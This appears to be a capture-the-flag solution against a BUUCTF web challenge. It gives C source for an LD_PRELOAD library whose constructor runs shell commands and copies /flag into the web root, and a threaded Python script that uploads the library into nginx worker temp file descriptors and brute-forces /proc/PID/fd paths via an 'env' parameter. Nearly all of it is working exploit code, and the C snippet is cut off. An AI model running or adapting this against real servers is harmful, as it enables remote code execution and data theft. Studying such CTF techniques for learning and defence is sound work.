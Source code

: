 ```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
	  unsetenv("LD_PRELOAD");
	    system("id");
	      system("cat /flag > /var/www/html/flag");
```

gcc -shared -fPIC exp.c -o [exp.so](http://exp.so/)

```python
import  threading, requests
URL2 = f'http://fdd5bb90-2354-4db9-8430-7849719a67f4.node4.buuoj.cn:81/index.php'
nginx_workers = [12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27]
done = False

def uploader():
    print('[+] starting uploader')
    with open("exp.so","rb") as f:
        data1 = f.read()+b'0'*1024*1000
        #print(data1)
    while not done:
        requests.get(URL2, data=data1)
for _ in range(16):
    t = threading.Thread(target=uploader)
    t.start()
def bruter(pid):
    global done
    while not done:
        print(f'[+] brute loop restarted: {pid}')
        for fd in range(4, 32):
            try:
                requests.get(URL2, params={
                    'env': f"LD_PRELOAD=/proc/{pid}/fd/{fd}"
                })
            except:
                pass

for pid in nginx_workers:
    a = threading.Thread(target=bruter, args=(pid, ))
    a.start()
```